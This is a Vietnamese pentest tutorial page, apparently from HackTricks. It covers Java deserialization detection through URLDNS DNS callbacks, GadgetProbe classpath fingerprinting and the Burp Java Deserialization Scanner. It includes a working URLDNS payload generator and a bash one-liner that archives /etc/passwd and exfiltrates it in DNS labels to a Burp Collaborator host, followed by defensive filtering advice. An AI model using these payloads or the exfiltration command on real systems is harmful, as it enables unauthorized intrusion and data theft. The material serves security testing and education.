


# Java DNS Deserialization, GadgetProbe và Java Deserialization Scanner

{{#include ../../banners/hacktricks-training.md}}

## DNS request khi deserialization

Lớp `java.net.URL` triển khai `Serializable`, vì vậy các instance có thể được đưa vào một luồng Java serialization.

```java
public final class URL implements java.io.Serializable {
```

`URL` có một tác dụng phụ hữu ích cho việc phát hiện: việc so sánh host có thể cần phân giải tên, và tài liệu ghi rõ cả `equals()` lẫn `hashCode()` đều có thể chặn. Không đảm bảo tra cứu sẽ diễn ra trong mọi lần gọi vì đối tượng URL và resolver có thể cache kết quả, nhưng một đối tượng được chuẩn bị có chủ đích có thể khiến quá trình deserialization thực hiện tra cứu DNS.<sup>[[1]](#references)[[5]](#references)</sup>

Một cách gọi đến `URL.hashCode()` là dùng URL làm key của `HashMap`. Khi tái tạo một map đã serialize, `HashMap.readObject()` sẽ tính hash của từng key:

```java
private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        [   ...   ]
    for (int i = 0; i < mappings; i++) {
        [   ...   ]
        putVal(hash(key), key, value, false, false);
    }
```

Lệnh gọi liên quan là `hash(key)`, phần triển khai của nó gọi phương thức `hashCode()` của key:

```java
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```

Do đó, quá trình deserialize một `HashMap` chứa khóa URL có thể thực thi `URL.hashCode()`.

Phần liên quan của `URL.hashCode()` là:

```java
 public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
```

Khi giá trị được lưu trong cache là `-1`, phương thức chuyển việc xử lý cho bộ xử lý luồng URL. Phép tính của bộ xử lý này bao gồm địa chỉ máy chủ:

```java
 protected int hashCode(URL u) {
        int h = 0;

        // Generate the protocol part.
        String protocol = u.getProtocol();
        if (protocol != null)
            h += protocol.hashCode();

        // Generate the host part.
        InetAddress addr = getHostAddress(u);
        [   ...   ]
```

Việc phân giải địa chỉ đó có thể phát ra truy vấn DNS được dùng làm tín hiệu out-of-band.

Chuỗi không cần dependency này thường được gọi là **URLDNS**. Callback chứng minh rằng mục tiêu đã xử lý luồng serialization đủ xa để hash key; bản thân nó **không** cung cấp khả năng thực thi lệnh. Nếu một gadget riêng biệt đã đạt được khả năng thực thi lệnh, đầu ra của nó có thể được mã hóa vào các nhãn DNS để exfiltration.<sup>[[1]](#references)[[7]](#references)</sup>

### Ví dụ mã payload URLDNS

Triển khai [ysoserial URLDNS chính thức](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java) sử dụng một handler im lặng tạm thời để tránh phân giải tên trong khi tạo payload. Vì `URL.handler` là transient, JVM nhận sẽ dựng lại handler thông thường; đặt lại hash được cache thành `-1` khiến phía nhận tính toán lại nó. PoC độc lập sau đây giữ nguyên hành vi đó:<sup>[[7]](#references)</sup>

```java
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

public class URLDNS {
	public static void GeneratePayload(Object instance, String file)
            throws Exception {
        //Serialize the constructed payload and write it to the file
        File f = new File(file);
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
	public static void payloadTest(String file) throws Exception {
        //Read the written payload and deserialize it
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        Object obj = in.readObject();
        System.out.println(obj);
        in.close();
    }

	public static void main(final String[] args) throws Exception {
		String url = "http://3tx71wjbze3ihjqej2tjw7284zapye.burpcollaborator.net";
		HashMap<URL, String> ht = new HashMap<>(); // HashMap that will contain the URL
		URLStreamHandler handler = new SilentURLStreamHandler();
    URL u = new URL(null, url, handler); // URL to use as the Key
    ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

    // During the put above, the URL's hashCode is calculated and cached.
    // This resets that so the next time hashCode is called a DNS lookup will be triggered.
    final Field field = u.getClass().getDeclaredField("hashCode");
    field.setAccessible(true);
		field.set(u, -1);

		//Test the payloads
		GeneratePayload(ht, "C:\\Users\\Public\\payload.serial");
	}
}


class SilentURLStreamHandler extends URLStreamHandler {

    protected URLConnection openConnection(URL u) throws IOException {
        return null;
    }

    protected synchronized InetAddress getHostAddress(URL u) {
        return null;
    }
}
```

Trên Java 9 trở lên, việc truy cập bằng reflection vào trường riêng tư `java.net.URL.hashCode` có thể yêu cầu chạy generator với `--add-opens java.base/java.net=ALL-UNNAMED`. Bản thân serialized payload vẫn không phụ thuộc thư viện. Các phương pháp phát hiện trước đây sửa đổi một chain của Commons Collections để thực hiện truy vấn DNS; URLDNS tránh được sự phụ thuộc vào thư viện bên ngoài đó.<sup>[[2]](#references)[[7]](#references)</sup>

## GadgetProbe

Bạn có thể tải [**GadgetProbe**](https://github.com/BishopFox/GadgetProbe) từ Burp Suite App Store (Extender).

**GadgetProbe** kiểm tra xem các class Java ứng viên có vẻ hiện diện trên classpath của mục tiêu hay không. Sự hiện diện của class giúp chọn chain để xác thực thêm, nhưng bản thân điều đó không chứng minh một gadget chain cụ thể có thể khai thác được.<sup>[[3]](#references)</sup>

### Cách thức hoạt động

**GadgetProbe** kết hợp tín hiệu DNS từ phần trước với một phép kiểm tra class bất kỳ. Callback là bằng chứng cho thấy mục tiêu đã phân giải class được kiểm tra trước khi xử lý khóa URLDNS. Không có callback thì chưa thể kết luận: class có thể không tồn tại, nhưng các biện pháp kiểm soát DNS egress, caching, serialization filter, metadata class không tương thích hoặc hành vi của ứng dụng cũng có thể chặn tín hiệu. Hãy xác nhận phát hiện bằng nhiều phép kiểm tra có kiểm soát.

Bên trong, công cụ dùng Javassist để tạo một class cục bộ rỗng với tên đầy đủ được yêu cầu, rồi serialize đối tượng `Class` của nó trước một khóa URL trong `LinkedHashMap`. Thứ tự chèn đóng vai trò oracle: nếu phía nhận không thể phân giải descriptor ứng viên, quá trình deserialization sẽ dừng trước khi đọc URL; nếu phân giải thành công, quá trình dựng lại map sẽ gọi `URL.hashCode()` và tên class sẽ xuất hiện trong hostname của callback. Vì vậy, phép kiểm tra này xác định **khả năng phân giải/tải class**, chứ không xác định liệu bản thân class đó có `Serializable` hay tạo thành một chain hoàn chỉnh có thể khai thác hay không.<sup>[[3]](#references)</sup>

Repository có các [wordlist](https://github.com/BishopFox/GadgetProbe/tree/master/wordlists) chứa những class Java để kiểm tra.

 (1).gif>)

### Quy trình Burp đáng tin cậy

Hãy dùng chuỗi kiểm tra đối chiếu thay vì diễn giải một lần không có tương tác. Trong Intruder, chọn toàn bộ giá trị serialized, cung cấp tên class làm danh sách payload, rồi thêm payload processor `ClassName to GadgetProbe` **trước** các transport processor như Base64 và URL encoding. GadgetProbe sẽ thăm dò Collaborator context riêng của nó và ghi lại các tên class dương tính trong tab của công cụ.<sup>[[3]](#references)[[9]](#references)</sup>

1. Gửi payload URLDNS thông thường với hostname duy nhất để xác thực vị trí chèn, các lớp giải mã, đường đi Java deserialization và DNS egress.
2. Thăm dò một class JRE ổn định như `java.lang.String` làm đối chứng dương tính đã biết cho GadgetProbe.
3. Thăm dò một package/class không tồn tại được tạo ngẫu nhiên làm đối chứng âm tính đã biết.
4. Chỉ liệt kê các ứng viên bên thứ ba khi các đối chứng dương tính có callback còn đối chứng âm tính thì không. Dùng tên callback mới khi lặp lại kiểm tra để giảm sự mơ hồ do resolver cache.
5. Dùng **Copy Detect Library Wordlist** và **Detect Library Versions** để kết hợp các class đánh dấu dương tính và âm tính thành các khoảng phiên bản được extension hỗ trợ.<sup>[[9]](#references)</sup>

Với transport không phải HTTP, hãy dùng GadgetProbe như một thư viện Java và serialize đối tượng trả về bằng framing hoặc encoding dành riêng cho protocol:<sup>[[3]](#references)</sup>

```java
GadgetProbe gp = new GadgetProbe("oast.example");
Object probe = gp.getObject(
    "org.apache.commons.collections.functors.InvokerTransformer");

try (ObjectOutputStream out = new ObjectOutputStream(
        new FileOutputStream("probe.bin"))) {
    out.writeObject(probe);
}
```

### Từ class hits đến candidate chains

Hãy xem đầu ra như một classpath fingerprint. Xác nhận nhiều marker class, tính đến các JAR đã được shade/relocate hoặc tối giản và các class loader riêng của ứng dụng, sau đó tái tạo các candidate chain dựa trên tổ hợp **JDK và phiên bản dependency đầy đủ** được suy luận. Một nghiên cứu năm 2024 đã đánh giá thực nghiệm 46 chain đã biết trên 244 bản dựng JDK và 5.455 phiên bản dependency, đồng thời phát hiện các chain đã biết vẫn áp dụng được với những bản phát hành gần đây; nghiên cứu này cũng cho thấy vì sao một class hit hoặc một phiên bản thư viện có vẻ phù hợp không đủ để chứng minh một RCE chain khả thi.<sup>[[10]](#references)</sup>

Khi có các artifact của ứng dụng, [Gadgecy](https://github.com/software-engineering-and-security/Gadgecy) bổ trợ cho việc probing black-box: công cụ có thể so sánh hash JAR trong một thư mục hoặc các dependency trong `pom.xml` với những tổ hợp phiên bản hỗ trợ chain đã được xác thực bằng thực nghiệm.<sup>[[10]](#references)</sup>

## Java Deserialization Scanner

Có thể tải scanner này từ Burp App Store (**Extender**). Extension có cả khả năng passive lẫn active.<sup>[[4]](#references)</sup>

### Passive

Theo mặc định, scanner kiểm tra passive request và response để tìm magic byte của Java serialization và báo cáo kết quả quan sát được. Tìm thấy marker cho biết có một đường dẫn xử lý dữ liệu serialization; tuy nhiên, vẫn cần xác thực khả năng khai thác:

.png>)<sup>[[4]](#references)</sup>

### Active

**Manual Testing**

Bạn có thể chọn một request, nhấp chuột phải rồi chọn `Send request to DS - Manual Testing`.\
Sau đó, trong _Deserialization Scanner Tab_ --> _Manual testing tab_, bạn có thể chọn **insertion point** và **chạy kiểm tra** (chọn attack phù hợp với encoding đang dùng).

<sup>[[4]](#references)</sup>

Dù tính năng này có tên là "Manual testing", nó tự động chạy nhiều bước kiểm tra active bằng payload ysoserial và làm nổi bật các tín hiệu về thời gian hoặc DNS quan sát được. Các bước kiểm tra hiện có gồm lệnh sleep trong Java, độ trễ do tiêu thụ CPU và DNS callback. Những probe này deserialize các object graph do kẻ tấn công kiểm soát và có thể kích hoạt side effect của gadget, vì vậy chỉ sử dụng chúng trên các hệ thống mà bạn được phép kiểm thử.

**Exploiting**

Sau khi xác định được một thư viện dễ bị tấn công, bạn có thể gửi request đến _Exploiting Tab_.\
Trong tab này, chọn lại injection point, chỉ định gadget chain và command dự kiến, rồi nhấn nút **Attack** phù hợp.

<sup>[[4]](#references)</sup>

### Exfiltration DNS trong Java deserialization

Sau khi một gadget chain riêng biệt thực thi được lệnh, payload có thể exfiltrate dữ liệu thông qua DNS label. Ví dụ sau lưu trữ `/etc/passwd` thành archive, hex-encode luồng dữ liệu thành các chunk 31 byte và phân giải từng chunk được đánh số:

```bash
(i=0;tar zcf - /etc/passwd | xxd -p -c 31 | while read line; do host $line.$i.cl1k22spvdzcxdenxt5onx5id9je73.burpcollaborator.net;i=$((i+1)); done)
```

## Hướng dẫn phòng thủ

Không deserialize các luồng native Java serialization không đáng tin cậy. Nếu yêu cầu tương thích với hệ thống cũ khiến không thể tránh việc này, hãy áp dụng allowlist `ObjectInputFilter` giới hạn chặt chẽ và giới hạn kích thước đồ thị đối tượng; đồng thời lưu ý rằng bộ lọc lớp chỉ giảm mức độ rủi ro, chứ không khiến các đồ thị đối tượng không an toàn trở nên an toàn. JEP 290 giới thiệu cơ chế lọc trên toàn JVM và theo từng luồng trong Java 9, còn JEP 415 bổ sung các factory bộ lọc theo ngữ cảnh trong Java 17.<sup>[[6]](#references)[[8]](#references)</sup>


## References

- [1] [Kích hoạt tra cứu DNS bằng Java deserialization](https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/)
- [2] [Phát hiện lỗi deserialization bằng cách exfiltrate DNS](https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/)
- [3] [Mã nguồn và tài liệu sử dụng GadgetProbe của Bishop Fox](https://github.com/BishopFox/GadgetProbe)
- [4] [Phát hiện và khai thác lỗ hổng Java deserialization một cách đáng tin cậy](https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/)
- [5] [Java Platform API — `java.net.URL`](https://docs.oracle.com/en/java/javase/21/docs/api/java.base/java/net/URL.html)
- [6] [JEP 290: Lọc dữ liệu serialization đầu vào](https://openjdk.org/jeps/290)
- [7] [Mã nguồn payload URLDNS của ysoserial](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java)
- [8] [JEP 415: Bộ lọc deserialization theo ngữ cảnh](https://openjdk.org/jeps/415)
- [9] [GadgetProbe — BApp Store của PortSwigger](https://portswigger.net/bappstore/e20cad259d73403bba5ac4e393a8583f)
- [10] [Phân tích các điều kiện tiên quyết của những lỗ hổng deserialization đã biết trong ứng dụng Java](https://www.abartel.net/static/p/ease2024-javaDeser.pdf)
{{#include ../../banners/hacktricks-training.md}}
